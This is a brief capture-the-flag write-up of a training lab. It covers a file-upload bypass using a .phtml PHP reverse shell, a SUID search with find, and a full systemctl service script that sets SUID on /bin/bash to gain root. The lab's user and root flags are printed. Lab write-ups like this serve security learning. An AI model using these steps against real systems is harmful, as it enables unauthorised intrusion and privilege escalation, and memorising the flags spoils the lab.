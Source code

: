 # writeups (suite 2)



`http://10.10.222.123:3333/internal/`

in this page I found an upload form so, let's try php reversehell, but this
one has some restriction about the extension file, so we choose one *.phtml*, but there are
so many to try, like php4, php5 and so on, but the phtml works so let's continue, while I'm
gonna upload the file, I set my netcat on listenning, don't forget the /uploads we discover
before, and after we got the revshell and also the user bill flag
`8bd7992fbe8a6ad22a63361004cfcedb`, and let's try to get root flag too.

I used this `find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;` to look for some binary with
suid, and guess what? I found one, here it is,
`-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl`, so let's go on GTFobins to look
for some way to go through the root, It was a little difficult but with some help in some writeups I got it
through  this script

```
#!/bin/bash

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
``` 
and after I run it I did `/bin/bash -p` and here the root priv, ey we got the root flag

`a58ff8579f0a9270368d33a9966c7fd5`

this writeups help me in the last part to mke the script and get the root
credit: https://leosmith.xyz/blog/vulnversity-tryhackme-writeup.html
